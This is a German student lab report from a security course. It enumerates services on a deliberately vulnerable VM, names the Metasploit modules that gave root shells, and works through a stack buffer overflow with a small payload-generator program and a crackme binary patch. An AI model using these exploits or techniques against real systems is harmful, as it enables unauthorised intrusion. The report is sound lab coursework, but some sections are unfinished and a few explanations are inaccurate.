\documentclass[10pt,a4paper]{article}
\usepackage[utf8]{inputenc}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{graphicx}
\usepackage[ngerman]{babel}
\usepackage[left=2cm]{geometry}


\author{Christoph Robbert 6577945, Peter Stilow 6500440}
\title{Protokoll 5}
\begin{document}
\maketitle
 
\section*{Aufgabe 1}

\subsection*{a)}
Unsere Vulnerabel VM hat die IP \texttt{192.168.122.235}. Ob ein Exploit bekannt ist, untersuchten wir mittels der CVE Datenbank \texttt{http://www.cvedetails.com/}. Falls ein Exploit bekannt ist setzten wir ein \texttt{x} in das Feld.
\begin{tabular}{|c|c|c|}
\hline 
Port & Dienst & Exploit bekannt \\ 
\hline 
21 & vfstpd 2.4 & x \\ 
\hline 
22 & ssh 4.7p1 & x \\ 
\hline 
23 & telnet &  \\ 
\hline 
25 & smtpd &  \\ 
\hline 
53 & bind & x \\ 
\hline 
80 & Apache httpd 2.2.8 & x \\ 
\hline 
111 & 2 RPC \#100000 &  \\ 
\hline 
139 & smbd 3.X & x \\ 
\hline 
445 & smbd 3.x & x \\ 
\hline 
512 & exec & \\
\hline
513 & login & \\
\hline
514 & shell & \\
\hline
1099 & java-rmi & \\
\hline & 
2121 & ProFTPD 1.3.1 & x \\
\hline
3306 & MySQL 5.0.51a-3ubuntu5 & x\\
\hline
5432 & PostgreSQL DB 8.3.0 &  x \\
\hline
5900 & VNC & \\
\hline
6000 & x11 & \\
\hline
6667 & inreal ircd & x\\
\hline
8009 & Apache Jserv Protocol v1.3 & \\
\hline


\end{tabular} 


\subsection*{b)}

Um uns die Benutzung des Metasploitframeworks zu vereinfachen, benutzten wir die GUI Armitage. In einem ersten Schritt benutzten wir die Funktion \texttt{Attacks $\rightarrow$ Hail Mary} aus, die automatisch aus Exploits aus einer lokalen Datenbank startet. Diese Funktion schaffte es mehre Shells zu öffnen. 
Die erste war eine Rootshell mittels des Exploits:
\begin{verbatim}
exploit/unix/irc/unreal_ircd_3281_backdoor
\end{verbatim}
eine Rootshell zu öffnen. Der Screenshot befindet sich in Abbildung \ref{ircd_root}.
\begin{figure}

\includegraphics[scale=0.5]{figures/ircd_rootshell.png}
\caption{Root shell via ircd}
\label{ircd_root}
\end{figure}

Die zweite Rootshell brachte der Exploit:
\begin{verbatim}
exploit/multi/misc/java_rmi_server
\end{verbatim}
Der Screenshot befindet sich in Abbildung \ref{java_rmi}.
\begin{figure}

\includegraphics[scale=0.5]{figures/java_rmi.png}
\caption{Root shell via java\_rmi}
\label{java_rmi}
\end{figure}

Der dritte Rootshell brachte der Exploit:
\begin{verbatim}
exploit/unix/ftp/vsftpd_234_backdoor
\end{verbatim}
Der Screenshot befindet in Abbildung \ref{vsftp_234}.
\begin{figure}

\includegraphics[scale=0.5]{figures/vfstp.png}
\caption{Root shell via vsftp}
\label{vfstp_234}
\end{figure}

Die vierte Backdoor brachte der Exploit:
\begin{verbatim}
exploit/multi/samba/usermap_script
\end{verbatim}
Der Screenshot befindet sich in Abbildung \ref{samba}.
\begin{figure}

\includegraphics[scale=0.5]{figures/samba.png}
\caption{Root shell via samba}
\label{samba}
\end{figure}

So long, lets say: All hail to Mary!

\section*{Aufgabe 2}

Die hier benutzte Rechnerarchitektur ist eine 64-Bit Architektur, auf der wir auch 64-Bit Binaries erzeugt und benutzt haben.

Wir deaktivierten zur Vorsicht die zufällige Platzierung der Prozesse im Speicher durch setzen einer 0 in /proc/sys/kernel/randomize\_va\_space.

\subsection*{a)}

Zum erzeugen des Programms benutzten wir folgenden Befehl:
\begin{verbatim}
gcc -o a a.c
\end{verbatim}

Hiermit bekamen wir das Programm a, bei dem wir einen Buffer-Overflow versuchten. Wir wissen aus dem Code, dass das Array \texttt{buf} 99 Zeichen lang ist, in das wir die Eingabe des Programms schreiben. Durch ausführen des Programms bekommen wir die folgende Ausgabe:
\begin{verbatim}
$ ./a
buf: ffffe7d0 cookie: ffffe83c
\end{verbatim}

Dies zeigt uns die Speicherpositionen des Arrays und der Variable \texttt{cookie}. Durch Subtraktion der Werte bekommen wir einen Offset von 108 (byte). Demzufolge müssen wir, um \texttt{cookie} zu überschreiben, 108 beliebige Zeichen und dann den Wert für \texttt{cookie} eingeben. \texttt{cookie} wird im Programm mit 0x67636264 verglichen, oder als Zeichen umgewandelt "`dbcg"'. Wir benutzten für unsere Eingabe also "`a\{108\}dbcg"'.

Daraus folgt also folgende Ein-/Ausgabe:
\begin{verbatim}
$ ./a
buf: ffffe7d0 cookie: ffffe83c
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaadbcg
glückwunsch bernd!
\end{verbatim}

\subsection*{b)}

Diese Aufgabe sollte durch überschreiben des "`Saved Instruction Pointer"' erfüllt werden. Hier verwenden wir das selbe Prinzip, nur dass wir statt die \texttt{cookie} Variable zu überschreiben eben den Pointer überschreiben möchten. Dieser Pointer sollte sich weitere 32 Bit hinter \texttt{cookie} befinden.

Zunächst compilieren wir das Programm wieder, diesmal aber zur Sicherheit mit dem Parameter, um stack-protektoren nicht zu setzen:
\begin{verbatim}
gcc -o b b.c -fno-stack-protector
\end{verbatim}

Mit gdb schauen wir uns daraufhin das Ergebnis des Compilierens an:
\begin{verbatim}
$ gdb b
GNU gdb (GDB) 7.6.2
Copyright (C)
[...]
Hacking/Blatt5/b...(no debugging symbols found)...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x000000000040058d <+0>:	push   %rbp
   0x000000000040058e <+1>:	mov    %rsp,%rbp
   0x0000000000400591 <+4>:	sub    $0x70,%rsp
   0x0000000000400595 <+8>:	lea    -0x4(%rbp),%rdx
   0x0000000000400599 <+12>:	lea    -0x70(%rbp),%rax
   0x000000000040059d <+16>:	mov    %rax,%rsi
   0x00000000004005a0 <+19>:	mov    $0x400664,%edi
   0x00000000004005a5 <+24>:	mov    $0x0,%eax
   0x00000000004005aa <+29>:	callq  0x400460 <printf@plt>
   0x00000000004005af <+34>:	lea    -0x70(%rbp),%rax
   0x00000000004005b3 <+38>:	mov    %rax,%rdi
   0x00000000004005b6 <+41>:	callq  0x400490 <gets@plt>
   0x00000000004005bb <+46>:	mov    -0x4(%rbp),%eax
   0x00000000004005be <+49>:	cmp    $0xa0d00,%eax
   0x00000000004005c3 <+54>:	jne    0x4005cf <main+66>
   0x00000000004005c5 <+56>:	mov    $0x40067c,%edi
   0x00000000004005ca <+61>:	callq  0x400450 <puts@plt>
   0x00000000004005cf <+66>:	leaveq 
   0x00000000004005d0 <+67>:	retq   
End of assembler dump.
\end{verbatim}

Aus diesen Daten kann man lesen, dass bei Adresse 0x4005be die if-Abfrage umgesetzt wurde. Diese möchten wir mit unserer Eingabe umgehen und direkt zum printf("...") springen. Wir müssen also die Sprungadresse ersetzen durch 0x4005c5. Da diese Adresse nicht zu tippende Zeichen enthält schreiben wir uns ein Eingabe-Programm "`inputGen.c"', welches wir dann zusammen mit dem Programm "`b"' aufrufen:
\begin{verbatim}
./inputGen | ./b
\end{verbatim}

Input Gen compilieren wir mit:
\begin{verbatim}
gcc -o inputGen inputGen.c
\end{verbatim}

\begin{verbatim}
inputGen.c
---------------------------------
#include <stdio.h>

int main() {
   unsigned int i;
   //fill the char buffer
   for(i = 0; i < 108; i++){
      printf("a");
   }
   //print the cookie variable
   printf("dbcg");
   //print some unneeded data as offset to the jump adress
   for(i = 0; i < 39; i++){
      printf("%c", 0);
   }
   //print the correct adress for the jump
   printf("%c%c%c%c", (0x4005c5 & 0xFF000000) >> 24, 0x4005c5 & 0xFF,
            (0x4005c5 & 0xFF00) >> 8, (0x4005c5 & 0xFF0000) >> 16);

   return 0;
}
\end{verbatim}


Durch Modifikation des gegebenen Programms lassen wir uns erstmal den Speicher ausgaben, der um das Array und die Variable herum liegen. Das Programm sieht nun so aus:
\begin{verbatim}
#include <stdio.h>

int main() {
   int cookie;
   char buf[99];

   printf("buf: %08x cookie: %08x\n", &buf, &cookie);
   for(cookie = 108; cookie < 180; cookie += 4){
      printf("pos: %08x val: %08x vali: %i\n", buf + cookie, *((int*)(buf + cookie)),
               *((int*)(buf + cookie)));
   }
   gets(buf);

   if (cookie == 0x000a0d00)
      printf("glückwunsch bernd!\n");
}
\end{verbatim}

Dadurch bekommen wir folgende Ausgabe:
\begin{verbatim}
$ ./b
buf: ffffe7d0 cookie: ffffe83c
pos: ffffe83c val: 0000006c vali: 108
pos: ffffe840 val: 00000000 vali: 0
pos: ffffe844 val: 00000000 vali: 0
pos: ffffe848 val: f7a54b05 vali: -140162299
pos: ffffe84c val: 00007fff vali: 32767
pos: ffffe850 val: 00000000 vali: 0
pos: ffffe854 val: 00000000 vali: 0
pos: ffffe858 val: ffffe928 vali: -5848
pos: ffffe85c val: 00007fff vali: 32767
pos: ffffe860 val: 00000000 vali: 0
pos: ffffe864 val: 00000001 vali: 1
pos: ffffe868 val: 0040058d vali: 4195725
pos: ffffe86c val: 00000000 vali: 0
pos: ffffe870 val: 00000000 vali: 0
pos: ffffe874 val: 00000000 vali: 0
pos: ffffe878 val: 559b8a02 vali: 1436256770
pos: ffffe87c val: 3fc6c3b5 vali: 1069990837
pos: ffffe880 val: 004004a0 vali: 4195488
\end{verbatim}

Durch einen Blick in die Ausgabe von gdb können wir die Sprungadressen 0x40058d und 0x4004a0 wiedererkennen. Diese zeigen jedoch auf den Anfang bzw. noch vor unser Programm, was das Überschreiben unnütz macht.

Aus diesem Grund schauen wir auch vor das Array (von 108 vor dem Array bis zum Array selbst). Hier sehen wir, dass direkt vor dem Array eine weitere Sprungadresse existiert:
\begin{verbatim}
$ ./b
buf: ffffe7d0 cookie: ffffe83c
pos: ffffe764 val: 00000000 vali: 0
pos: ffffe768 val: ffffe840 vali: -6080
pos: ffffe76c val: 00007fff vali: 32767
pos: ffffe770 val: 004004a0 vali: 4195488
pos: ffffe774 val: 00000000 vali: 0
pos: ffffe778 val: f7df1205 vali: -136375803
pos: ffffe77c val: 00007fff vali: 32767
pos: ffffe780 val: 00000000 vali: 0
pos: ffffe784 val: 00000000 vali: 0
pos: ffffe788 val: 00000000 vali: 0
pos: ffffe78c val: 00000000 vali: 0
pos: ffffe790 val: ffffe83c vali: -6084
pos: ffffe794 val: 00007fff vali: 32767
pos: ffffe798 val: ffffe7d0 vali: -6192
pos: ffffe79c val: 00007fff vali: 32767
pos: ffffe7a0 val: 00400714 vali: 4196116
pos: ffffe7a4 val: 00000000 vali: 0
pos: ffffe7a8 val: f7dd8c80 vali: -136475520
pos: ffffe7ac val: 00007fff vali: 32767
pos: ffffe7b0 val: f7debd00 vali: -136397568
pos: ffffe7b4 val: 00007fff vali: 32767
pos: ffffe7b8 val: f7ffe130 vali: -134225616
pos: ffffe7bc val: 00007fff vali: 32767
pos: ffffe7c0 val: 00000001 vali: 1
pos: ffffe7c4 val: 00000000 vali: 0
pos: ffffe7c8 val: 004005f4 vali: 4195828
pos: ffffe7cc val: 00000000 vali: 0
pos: ffffe7d0 val: ffffffff vali: -1
\end{verbatim}
Diese kann man durch eine Eingabe in gets aber nicht überschreiben, da sie auf der anderen Seite des Speichers liegt. Hier kommen wir also ohne Modifikation (würde ich sagen) des Programms selbst nicht weiter.

\subsection*{c)}
\section*{Aufgabe 3}
Um diese Aufgabe zu lösen haben wir das Binary \texttt{break\_it} mittels der radare GUI Bokken disassembliert. Nach etwas Code studieren fiel uns auf, dass der String "Access Denied!" nach der Sprunganweisung 
\begin{verbatim}
test eax, eax
jnz loc.0040062c
\end{verbatim}  
steht. Da eax immer eax ist, wird dieser Sprung nie ausgeführt. Würde der Sprung ausgeführt werden gelangt man zu einem String der "Got it, move on" enthält. Wir wandelten die Sprunganweisung \texttt{jnz hex:750c}(jump non zero) in \texttt{jz hex:740c} um, damit dieser Sprung immer ausgeführt wird.
Nach dieser Änderung machte die Binary folgende Ausgabe:
\begin{verbatim}
Got it, move on!: dbv28%82hr!37v6!2
\end{verbatim}
Das Passwort für stage2 lautete also \texttt{dbv28\%82hr!37v6!2}

\subsection*{a)}
\end{document}